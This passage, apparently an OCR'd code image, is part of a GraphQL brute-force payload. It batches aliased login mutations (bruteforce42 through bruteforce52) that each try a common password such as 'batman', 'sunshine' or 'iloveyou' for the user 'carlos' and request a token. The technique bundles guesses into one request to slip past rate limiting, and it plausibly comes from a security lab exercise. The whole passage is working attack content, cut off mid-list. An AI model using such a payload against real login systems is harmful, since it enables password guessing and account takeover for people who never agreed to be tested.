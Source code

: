 ```plain
bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
```